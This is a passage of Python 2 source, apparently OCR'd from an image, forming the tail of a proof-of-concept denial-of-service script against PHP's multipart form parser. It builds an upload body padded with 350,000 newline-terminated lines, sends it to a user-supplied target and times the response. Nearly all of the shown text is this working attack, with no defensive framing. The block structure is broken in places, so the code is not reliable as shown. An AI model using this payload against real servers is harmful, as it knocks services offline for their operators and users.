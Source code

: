 ```
                  dest="target", 
                  default=False, 
          type="string",
                  help="test target")
    (options, args) = parser.parse_args()
    if(options.target):
    target = options.target
    else:
    return;

    Num=350000
    headers={'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundaryX3B7rDMPcQlzmJE1',
            'Accept-Encoding':'gzip, deflate',
            'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.111 Safari/537.36'}
    body = "------WebKitFormBoundaryX3B7rDMPcQlzmJE1\nContent-Disposition: form-data; name=\"file\"; filename=sp.jpg"
    payload=""
    for i in range(0,Num):
        payload = payload + "a\n"
    body = body + payload;
    body = body + "Content-Type: application/octet-stream\r\n\r\ndatadata\r\n------WebKitFormBoundaryX3B7rDMPcQlzmJE1--"
    print "starting...";
    respond=check_php_multipartform_dos(target,body,headers)
    print "Result : "
    print respond[0]
    print "Respond time : "+str(respond[1]) + " seconds";

if __name__=="__main__":
    main()

```